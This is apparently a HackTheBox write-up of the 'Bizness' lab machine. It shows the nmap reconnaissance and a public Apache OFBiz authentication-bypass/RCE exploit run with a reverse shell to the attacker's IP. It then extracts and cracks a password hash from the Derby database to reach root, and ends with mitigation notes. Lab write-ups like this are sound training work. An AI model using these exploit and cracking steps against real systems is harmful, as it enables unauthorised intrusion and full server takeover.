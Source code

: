 ```yaml
---
title: "HackTheBox - Bizness"
author: Nasrallah
description: ""
date: 2024-05-25 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, linux, easy, crack, rce, cve]
img_path: /assets/img/hackthebox/machines/bizness
image:
    path: bizness.png
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---

## **Description:**

[Bizness](https://www.hackthebox.com/machines/bizness) from [HackTheBox](https://affiliate.hackthebox.com/nasrallahbaadi) is running a version of Apache Ofbiz vulnerable to Authentication bypass and remote code execution giving us a foothold on the server. After that we find a hash that we crack and get a root shell.

## **Enumeration**

### nmap

We start an Nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.11.252
Host is up (0.38s latency).
Not shown: 997 closed tcp ports (reset)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
|   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
|_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
80/tcp  open  http     nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to https://bizness.htb/
443/tcp open  ssl/http nginx 1.18.0
| tls-alpn: 
|_  http/1.1
|_http-title: Did not follow redirect to https://bizness.htb/
|_ssl-date: TLS randomness does not represent time
|_http-server-header: nginx/1.18.0
| ssl-cert: Subject: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=UK
| Not valid before: 2023-12-14T20:03:40
|_Not valid after:  2328-11-10T20:03:40
| tls-nextprotoneg: 
|_  http/1.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We found three open ports, 22 running SSH, 80 is nginx web server redirecting to to the host `bizness.htb` on port 443. Let's add it to `/etc/hosts` file.

### Web

Let's navigate to the web page.

![webpage](1.png)

The website seems to be static, all the links refers to section on the web page.

Scrolling down all the way to the bottom we find some interesting info.

![ofbiz](2.png)

The website uses `Apache Ofbiz`.

Searching on google for `Ofbiz exploit` reveals the two CVEs `CVE-2023-51467` and `CVE-2023-49070` allowing for an authentication bypass and remote code execution.

The exploit I'll be using can be found here: <https://github.com/UserConnecting/Exploit-CVE-2023-49070-and-CVE-2023-51467-Apache-OFBiz?tab=readme-ov-file>.

## **Foothold**

First, we need download `ysoserial-all.jar` file

```bash
wget https://github.com/frohoff/ysoserial/releases/latest/download/ysoserial-all.jar
```

Now we run the exploit.

```terminal
$ python3 ofbiz_exploit.py https://bizness.htb shell 10.10.16.18:9001
The target appears to be vulnerable.                                                                                                                                                                                                       
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Error while generating or serializing payload                                                                        
java.lang.IllegalAccessError: class ysoserial.payloads.util.Gadgets (in unnamed module @0x171b706d) cannot access class com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl (in module java.xml) because module java.xml does not ex
port com.sun.org.apache.xalan.internal.xsltc.trax to unnamed module @0x171b706d
        at ysoserial.payloads.util.Gadgets.createTemplatesImpl(Gadgets.java:102)
        at ysoserial.payloads.CommonsBeanutils1.getObject(CommonsBeanutils1.java:20)
        at ysoserial.GeneratePayload.main(GeneratePayload.java:34)

        Error. Try changing your current Java version to Java 11: 
sudo apt-get install openjdk-11-jdk
                                                                                                                     
sudo update-alternatives --config java
```

The exploit needs `openjdk-11-jdk` to run.

I listed the java version on my machine with `update-java-alternatives --list`

```bash
$ update-java-alternatives --list                                                                                  
java-1.11.0-openjdk-amd64      1111       /usr/lib/jvm/java-1.11.0-openjdk-amd64
java-1.17.0-openjdk-amd64      1711       /usr/lib/jvm/java-1.17.0-openjdk-amd64
```

I have the correct version I just need to change to it with the following command:

```bash
sudo update-java-alternatives --set /usr/lib/jvm/java-1.11.0-openjdk-amd64
```

Now we run the exploit.

![exploit](3.png)

I got the shell.

## **Privilege Escalation**

Apache Ofbiz uses a database called `derby`, so I greped for the word password in the `/opt/ofbiz/runtime/data/derby` directory with `grep -Ri 'password' ./`.

There was a lot of output but with the help of a friend I managed to locate the hash.

![crack](4.png)

To crack it we can use the following script: <https://github.com/duck-sec/Apache-OFBiz-SHA1-Cracker>

```bash
$ python3 OFBiz-crack.py --hash-string '$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I' --wordlist /usr/share/wordlists/rockyou.txt
[+] Attempting to crack....
Found Password: monkeybizness
hash: $SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I
(Attempts: 1478438)
[!] Super, I bet you could log into something with that!
```

Using this password to switch to user `root`

```bash
ofbiz@bizness:~$ su root
Password: 
root@bizness:~#
```

## **Prevention and Mitigation**

### Ofbiz RCE

Pre-auth RCE in Apache Ofbiz 18.12.09. It’s due to XML-RPC no longer maintained still present. This issue affects Apache OFBiz: before 18.12.10. Users are recommended to upgrade to version 18.12.10

### Password

Passwords should always be long and complex using numbers, capital letters and special characters which would make cracking the hash way harder.

Also passwords should never be reused

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

## References

<https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-49070>

<https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-51467>

<https://github.com/UserConnecting/Exploit-CVE-2023-49070-and-CVE-2023-51467-Apache-OFBiz?tab=readme-ov-file>

<https://github.com/duck-sec/Apache-OFBiz-SHA1-Cracker>
